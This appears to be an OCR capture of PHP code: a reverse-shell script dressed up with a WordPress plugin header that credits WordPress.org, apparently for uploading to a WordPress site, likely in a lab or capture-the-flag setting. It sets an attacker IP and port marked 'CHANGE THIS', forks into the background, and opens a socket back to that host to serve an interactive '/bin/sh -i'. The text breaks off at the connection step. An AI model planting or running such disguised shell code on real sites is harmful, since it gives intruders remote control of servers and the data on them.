  ```php
Version:     20160911
Author:      WordPress.org
Author URI:  https://developer.wordpress.org/
License:     GPL2
License URI: https://www.gnu.org/licenses/gpl-2.0.html
Text Domain: wporg
Domain Path: /languages
*/

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.56.1';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
 ```